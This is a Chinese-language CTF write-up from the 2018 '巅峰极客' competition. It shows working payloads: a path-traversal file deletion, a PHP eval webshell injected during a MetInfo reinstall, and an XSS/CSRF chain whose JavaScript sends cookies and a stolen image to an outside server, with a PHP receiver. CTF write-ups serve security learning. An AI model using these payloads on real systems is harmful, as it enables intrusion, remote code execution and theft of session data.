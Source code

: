 ```yaml
---
title: 巅峰极客ctf
date: 2018-07-23 20:33:53
tags: ctf
---
```


## pentest

1. 御剑扫描

2. 经过目录扫描，发现`file/file.php`

   根据网页最后提示:

   ```
   DELETE FILE
   Sorry,no filename!
   ```

   可以猜测存在任意文件删除漏洞。

3. 首先我们删除`install.lock`

   ```
   http://c2a2868220484acaae0b962988dbecbbd872061666de4bc6.game.ichunqiu.com/file/file.php?file=...//config/install.lock
   ```

4. 重装metinfo，重装的时候数据库名填写 

   ```
   met#*/@eval($_GET[1]);/*
   ```

   数据库密码为`root`

5. 执行shell即可

   ```
   http://c2a2868220484acaae0b962988dbecbbd872061666de4bc6.game.ichunqiu.com/config/config_db.php?1=system(%27ls%27);
   ```

## mysqlonline

首先通过mysql查询，经过hex编码在输出，可以造成xss。

```
select 0x3c7363726970743e616c6572742831293c2f7363726970743e
```

结合CSRF即可打后台:

```
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://106.75.35.230:9001/runsql.php " method="POST">
      <input type="hidden" name="sql" value="select 0x30783c736372697074207372633d687474703a2f2f69702f7873732f312e6a733e3c2f7363726970743e" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

```
0x30783c736372697074207372633d687474703a2f2f69702f7873732f312e6a733e3c2f7363726970743e
=> 
<script src=http://ip/xss/1.js></script>
```

js的内容:

```
self.location = 'http://123.207.90.143/x.php?v=aaa'+btoa(document.cookie)+'aaa';
```

修改CSRF payload:

```html
<html>
  <body>
  <script>history.pushState('', '', '/')</script>
    <form action="http://127.0.0.1/runsql.php" method="POST">
      <input type="hidden" name="sql" value="select 0x30783c736372697074207372633d687474703a2f2f69702f7873732f312e6a733e3c2f7363726970743e" />
    </form>
    <script>document.forms[0].submit();</script>
  </body>
</html>
```

通过以上操作，可以发现后台有`admin_zzzz666.php`页面

但是admin_zzzz666.php并无flag，只有`./static/img/iamsecret_555.jpg `

修改payload,也就是vps上的js文件，利用canvas获取图片:

```
var love={ajax:function(){var a;try{a=new XMLHttpRequest()}catch(e){try{a=new ActiveXObject("Msxml2.XMLHTTP")}catch(e){try{a=new ActiveXObject("Microsoft.XMLHTTP")}catch(e){return false}}}return a},req:function(b,c,d,e){d=(d||"").toUpperCase();d=d||"GET";c=c||"";if(b){var a=this.ajax();a.open(d,b,true);if(d=="POST"){a.setRequestHeader("Content-type","application/x-www-form-urlencoded")}a.onreadystatechange=function(){if(a.readyState==4){if(e){e(a)}}};if((typeof c)=="object"){var f=[];for(var i in c){f.push(i+"="+encodeURIComponent(c[i]))}a.send(f.join("&"))}else{a.send(c||null)}}},get:function(a,b){this.req(a,"","GET",b)},post:function(a,b,c){this.req(a,b,"POST",c)}};

function getBase64(img){
    function getBase64Image(img,width,height) {//width、height调用时传入具体像素值，控制大小 ,不传则默认图像大小
        var canvas = document.createElement("canvas");
        canvas.width = width ? width : img.width;
        canvas.height = height ? height : img.height;

        var ctx = canvas.getContext("2d");
        ctx.drawImage(img, 0, 0, canvas.width, canvas.height);
        var dataURL = canvas.toDataURL();
        return dataURL;
    }
    var image = new Image();
    image.crossOrigin = '';
    image.src = img;
    return new Promise((resolve,reject)=>{
        image.onload =function (){
            resolve(getBase64Image(image));//将base64传给done上传处理
        }
    });
}

getBase64('http://127.0.0.1/static/img/iamsecret_555.jpg').then(base64 => {
    love.post(
      "http://ip/xss/x.php",
      "v="+base64,
      function(res){
        console.log(res);
      }
    );
}, err => {
    console.log(err)
})
```

vps上xss.php:

```
<?php
header('Access-Control-Allow-Origin: *');
file_put_contents('log.txt',$_POST['v']);
```

最后会获取到图片，当然这个过程中+会被转换为空格，所以后面还要转换回来。 

## Dedefun

```
参考网址：
https://paper.tuisec.win/detail/d1053143f127862	
https://xz.aliyun.com/t/2469#toc-3
```

**主要用来找后台目录**

## A simple CMS

**利用缓存getshell**



